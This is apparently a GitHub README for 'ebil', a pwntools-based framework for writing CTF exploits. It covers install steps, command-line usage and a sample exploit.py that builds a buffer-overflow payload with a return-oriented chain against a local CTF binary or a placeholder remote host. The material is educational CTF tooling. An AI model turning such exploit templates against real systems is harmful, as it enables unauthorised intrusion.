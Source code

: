# ebil
ebil is an exploit code framework for CTFs, based on pwntools

Command line tools + python library


![](https://gist.githubusercontent.com/193s/bdcf6ed0864cfb051336/raw/44248717b121f93366ea8dc50762883da3c386a9/ss.png)

### Runtime Environment
#### config file (TODO)
`$HOME/.ebil.conf`


### Command line tools
`ebil new <process>` -> `./exploit.py` with `process` will be generated


### Python library
`pip install ./py`

__usage__:
```sh
./exploit.py   # run locally
./exploit.py p # run locally (pause on breakpoints)
./exploit.py r # remote

```
__exploit.py__:
```python
#!/usr/bin/env python
from ebil import *

exec ebil('./vuln', remote=('pwnable.example.com', 35555), args=['wei'], arch='x86_64')

if LOCAL: log.info('** LOCAL **')

payload = 'a'*140

dummy = 0xbeefbeefbeefbeef
payload += chain([
  elf.symbols['write'], dummy, 1, 0x8049348, 4,
])
send(payload, 200)

print repr(r.recvrepeat())

r.wait_for_close()
```

## Installation
```bash
git clone https://github.com/193s/ebil && cd ebil
install -v ebil /usr/local/bin
pip install ./py
```

## License
Copyright (c) 2015 193s

Published under the GNU GPLv2, see ./LICENSE


